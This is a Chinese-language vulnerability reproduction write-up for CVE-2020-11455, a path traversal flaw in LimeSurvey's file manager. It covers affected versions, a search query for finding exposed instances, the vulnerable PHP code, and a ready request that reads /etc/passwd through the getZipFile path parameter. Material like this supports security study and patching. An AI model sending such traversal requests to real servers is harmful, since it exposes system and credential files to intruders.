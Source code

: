 # LimeSurvey LimeSurveyFileManager.php 后台任意文件读取漏洞 CVE-2020-11455

## 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。
LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 漏洞影响

LimeSurvey < 4.1.12 + 200324

## 网络测绘

app="LimeSurvey"

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1650453876458-96aaea24-21f4-4ffb-9339-c596d9c4fc87.png)

出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`

![img](/assets/PeiQi-Wiki/img/1650453992802-1393b9ad-1a7f-41ba-b80c-5f2058c4bfc7-20220420194636996.png)

```php {14-19}
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中

![img](/assets/PeiQi-Wiki/img/1650454603065-aa5fbb1b-b8bb-4a45-ad2f-c86dd87ce2f5-20220420194643953.png)

这里通过 readfile方法 读取文件，登录后台后发送请求

```php
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1650454764306-b899ea3a-16f0-4fdb-b4a1-80df09dd17e4.png)